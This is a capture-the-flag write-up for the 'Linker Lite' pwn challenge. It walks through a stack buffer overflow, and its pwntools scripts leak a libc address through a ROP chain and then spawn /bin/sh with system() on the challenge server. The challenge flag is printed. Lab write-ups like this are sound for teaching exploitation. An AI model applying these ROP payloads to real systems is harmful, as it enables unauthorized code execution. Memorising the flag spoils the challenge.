


# 『Linker Lite』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

## 『Highlight vulnerability and parts of interesting』

So this might be ret2lib because no pie -> still same memory and no canary -> you can overflow it

```asm
00401146    int64_t read_full(int32_t arg1, int64_t arg2, int64_t arg3)

00401159        int64_t result = 0
00401159        
004011aa        while (true)
004011aa            if (result u>= arg3)
004011ac                return result
004011ac            
00401181            ssize_t rax_5 = read(fd: arg1, buf: arg2 + result, nbytes: arg3 - result)
00401181            
0040118f            if (rax_5 s<= 0)
0040118f                break
0040118f            
0040119e            result += rax_5
0040119e        
00401191        return -1


004011b2    int64_t load_plugin()

004011d7        void var_48
004011d7        return read_full(0, &var_48, 0x100)


004011d8    int32_t main(int32_t argc, char** argv, char** envp)

004011f5        setvbuf(fp: __TMC_END__, buf: nullptr, mode: 2, size: 0)
004011ff        puts(str: "plugin-loader v0.1")
00401209        puts(str: "send plugin blob:")
00401213        load_plugin()
0040121e        return 0

```

here are all the function

## 『Solving Challenge』
> solve by Lylera

The first of my thought is ret2lib beside you can leak the puts where it was and my instinct was right:

```asm
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/Lylera/Downloads/for_ctf_alls/event/wolv/linker-lite_patched:
GOT protection: Partial RELRO | Found 3 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x7ffff7c80e10 (puts) ◂— endbr64
[0x404020] read@GLIBC_2.2.5 -> 0x7ffff7d14920 (read) ◂— endbr64
[0x404028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7c815b0 (setvbuf) ◂— endbr64
pwndbg> plt
Section .plt 0x401020 - 0x401060:
0x401030: puts@plt
0x401040: read@plt
0x401050: setvbuf@plt
```

so you can use `puts` or `read` in here. Leak this one and get flag. So i make my own template for these chall xD. But one thing, the input always use `read` no matter what. I check the rdi and interesting: `0x0000000000401223 : pop rdi ; pop rsi ; pop rdx ; ret` using this one instead of `pop rdi; ret`. So my opinion still same. Leak the puts -> then you will get leak to libc. That's all

```py
from pwn import *

elf = context.binary = ELF('./linker-lite_patched')
# p = process()
p = remote('linker-lite.wolvctf-2026.kctf.cloud', 1337)
rop = ROP(elf)
libc = ELF('./libc.so.6')

rdi = p64(0x401223) # pop rdi ; pop rsi ; pop rdx ; ret
ret = rop.find_gadget(['ret'])[0]
# load = elf.sym['load_plugin']
main = elf.sym['_start']
# offset = 192
offset = 72

payload = flat(
    'A'*offset,
    rdi, elf.got['puts'],
    p64(0), p64(0), ret,
    elf.plt['puts'], main
)

p.sendafter('send plugin blob:\n', payload.ljust(0x100, b'\x00'))
leak_raw = p.recvline().strip()
# leak_raw = p.recvn(6)
log.info(f"Raw leak bytes: {leak_raw.hex()}")
leak = leak_raw.ljust(8, b'\x00')
leaked_puts = u64(leak)
log.info(f"Leaked puts address: {hex(leaked_puts)}")
libc.address = leaked_puts - libc.sym['puts']
log.info(f"libc base: {hex(libc.address)}")
```

So this one success the leak but you must adjust to 0x100 to trigger the buffer overflow in here. After that leak to gain shell. Without you adjust to `0x100` -> you will never get leak in here. I learn something new (good one author :'). So yeah oh one thing, the offset still same -> 72 as other chall too like `Gate 7`, etc. Full solver:

```py
from pwn import *

elf = context.binary = ELF('./linker-lite_patched')
# p = process()
p = remote('linker-lite.wolvctf-2026.kctf.cloud', 1337)
rop = ROP(elf)
libc = ELF('./libc.so.6')

rdi = p64(0x401223) # pop rdi ; pop rsi ; pop rdx ; ret
ret = rop.find_gadget(['ret'])[0]
# load = elf.sym['load_plugin']
main = elf.sym['_start']
# offset = 192
offset = 72

payload = flat(
    'A'*offset,
    rdi, elf.got['puts'],
    p64(0), p64(0), ret,
    elf.plt['puts'], main
)

p.sendafter('send plugin blob:\n', payload.ljust(0x100, b'\x00'))
leak_raw = p.recvline().strip()
# leak_raw = p.recvn(6)
log.info(f"Raw leak bytes: {leak_raw.hex()}")
leak = leak_raw.ljust(8, b'\x00')
leaked_puts = u64(leak)
log.info(f"Leaked puts address: {hex(leaked_puts)}")
libc.address = leaked_puts - libc.sym['puts']
log.info(f"libc base: {hex(libc.address)}")

system_addr = libc.sym['system']
binsh_addr = next(libc.search(b"/bin/sh\x00"))

one_gadget = libc.address + 0xebd03
payload2 = flat(
    'A'*offset,
    rdi, binsh_addr, p64(0), p64(0), # dont forget: pop rdi; pop rsi; pop rdx; ret
    ret, # use for stack allignment
    system_addr
)

p.sendafter('send plugin blob:\n', payload2.ljust(0x100, b'\x00'))
p.interactive()
```

I see on flag, it use ret2dlresolve (idk why :') maybe i will try later

### 『Flag』

```
wctf{n0_le4k_n0_pr0blem_ret2dlresolve}
```

### 『Reference』

- my own template -> https://github.com/arsitektur-jaringan-komputer/cybreak-2026-ctf/blob/master/pwn/intoretlib/poc/solver.py